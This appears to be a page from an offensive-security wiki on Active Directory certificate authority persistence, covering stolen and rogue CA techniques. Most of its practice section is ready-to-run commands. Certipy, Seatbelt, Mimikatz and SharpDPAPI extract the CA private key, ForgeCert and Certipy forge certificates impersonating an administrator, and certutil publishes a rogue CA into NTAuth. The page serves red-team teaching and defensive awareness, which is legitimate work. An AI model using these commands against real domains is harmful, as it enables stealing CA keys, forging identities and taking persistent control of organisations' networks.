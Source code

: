 # Certificate authority

## Theory

In [their research papers](https://posts.specterops.io/certified-pre-owned-d95910965cd2), [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin\_) identified 2 domain persistence techniques relying on the role of the Certificate Authority within a PKI.

* Forging certificates with a stolen CA certificates (DPERSIST1)
* Trusting rogue CA certificates (DPERSIST2)

## Practice

### Stolen CA

> The Enterprise CA has a certificate and associated private key that exist on the CA server itself. ([Certified\_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified\_Pre-Owned.pdf))

If an attacker obtains control over a CA server, he may be able to retrieve the private key associated with the CA cert, and use that private key to generate and sign client certificates. This means he could forge (and sign) certificate to authenticate as a powerful user for example.

{% tabs %}
{% tab title="UNIX-like" %}
Extracting the DPAPI-protected CA cert private key can be done remotely from UNIX-like systems with [Certipy](https://github.com/ly4k/Certipy) (Python).

{% code overflow="wrap" %}
```bash
certipy ca -backup -ca "CA" -username "USER@domain.local" -password "PASSWORD" -dc-ip "DC-IP"
```
{% endcode %}

Then, forging (and signing) a certificate can be done as follows.

{% code overflow="wrap" %}
```bash
certipy forge -ca-pfx "CA.pfx" -upn "administrator@corp.local" -subject "CN=Administrator,CN=Users,DC=CORP,DC=LOCAL"
```
{% endcode %}

The certificate can then be used with [Pass the Certificate](../../movement/kerberos/pass-the-certificate.md).
{% endtab %}

{% tab title="Windows" %}
Extracting the DPAPI-protected CA cert private key can be done remotely with [Seatbelt](https://github.com/GhostPack/Seatbelt) (C#).

```batch
Seatbelt.exe Certificates -computername="ca.domain.local"
```

Alternatively, the builtin `certsrv.msc` utility can be used locally on the CA server.

{% code overflow="wrap" %}
```
Win+R > certsrv.msc > CA > right click > All Tasks > Back up CA... > selet "Private key and CA certificate" > Next
```
{% endcode %}

Alternatively, [Mimikatz](https://github.com/gentilkiwi/mimikatz) (C) can also be used for that purpose, locally.

```batch
mimikatz.exe "crypto::capi" "crypto::cng" "crypto::certificates /export"
```

Alternatively, [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI) (C#) can be used for that purpose, locally, along with [openssl](https://www.openssl.org/) to transform the PEM into a usable PFX.

```batch
SharpDPAPI.exe certificates /machine
```

{% code overflow="wrap" %}
```bash
openssl pkcs12 -in "ca.pem" -keyex -CSP "Microsoft Enhanced
Cryptographic Provider v1.0" -export -out "ca.pfx"
```
{% endcode %}

Then, forging and signing a certificate can be done with [ForgeCert](https://github.com/GhostPack/ForgeCert) (C#).

{% code overflow="wrap" %}
```batch
ForgeCert.exe --CaCertPath "ca.pfx" --CaCertPassword "Password" --Subject "CN=User" --SubjectAltName "administrator@domain.local" --NewCertPath "administrator.pfx" --NewCertPassword "Password"
```
{% endcode %}
{% endtab %}
{% endtabs %}

### Rogue CA

{% hint style="warning" %}
> it is usually preferable for an attacker to steal the existing CA certificate instead of installing an additional rogue CA certificate ([Certified\_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified\_Pre-Owned.pdf))
{% endhint %}

An attacker with sufficient privileges in the domain can setup a rogue CA and make the domain's resources trust it. Once the rogue CA is trusted, the attacker can forge and sign client certificates.

In order to register the rogue CA, the self-signed CA cert must be added the `NTAuthCertificates` object's `cacertificate` attribute, and in the `RootCA` directory services store.

Registering the rogue CA can be done remotely with the `certutil.exe` utility from Windows systems.

```batch
certutil.exe -dspublish -f "C:\Temp\CERT.crt" NTAuthCA
```

Once this is done, a certificate can be forged, signed and used as explained above: [#stolen-ca](certificate-authority.md#stolen-ca "mention")

## Resources

{% embed url="https://posts.specterops.io/certified-pre-owned-d95910965cd2" %}

